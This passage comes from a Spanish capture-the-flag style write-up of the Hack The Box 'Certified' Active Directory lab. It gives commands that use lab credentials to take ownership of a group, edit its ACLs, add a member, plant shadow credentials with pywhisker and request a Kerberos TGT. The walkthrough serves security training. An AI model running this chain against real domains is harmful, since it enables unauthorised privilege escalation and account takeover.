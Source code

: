 ```sh
python3 bloodhound.py -u judith.mader -p judith09 -d certified.htb -c All -ns 10.10.11.41
```
Esto generará unos archivos **.json** que podemos subir a BloodHound con la opción **Upload Data**.

Una vez hecho si clicamos en la opción "Find Shortets Path to Domain Admins" veremos que Judith tiene "WriteOwner" sobre el grupo "management".

![Pic]({{ '/assets/img/certified/8pic.png' | relative_url }}){: .center-image }

Como nos muestra BloodHound, podemos aprovecharnos de esto usando distintas herramientas de impacket.
Primero, tenemos que hacer a Judith la propietaria del grupo para posteriormente, añadirla al grupo.

```sh
python3 owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb'/'judith.mader':'judith09'
```

![Pic]({{ '/assets/img/certified/9pic.png' | relative_url }}){: .center-image }

Ahora modificaremos las ACLs para que podamos añadir al usuario Judith al grupo.

```sh
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'controlledUser' -target-dn 'groupDistinguidedName' 'domain'/'controlledUser':'password'
```

![Pic]({{ '/assets/img/certified/10pic.png' | relative_url }}){: .center-image }

Se añade al grupo de la siguiente forma:

```sh
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

Si el comando ha funcionado no nos reportará ningún output. Después de hacer estos cambios volvemos a ejecutar **pywhisker** para añadir una clave pública al usuario management\_svc.

```sh
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add" --filename key --export PEM
```

![Pic]({{ '/assets/img/certified/11pic.png' | relative_url }}){: .center-image }

Como vemos en la imagen, se nos han generado dos archivos. El propio output nos muestra como podemos solicitar un TGT utilizando [PKINITtools](https://github.com/dirkjanm/PKINITtools).

```sh
python3 gettgtpkinit.py -cert-pem key_cert.pem -key-pem key_priv.pem -dc-ip 10.10.11.41 certified.htb/management_svc dc.ccache
```


![Pic]({{ '/assets/img/certified/12pic.png' | relative_url }}){: .center-image }
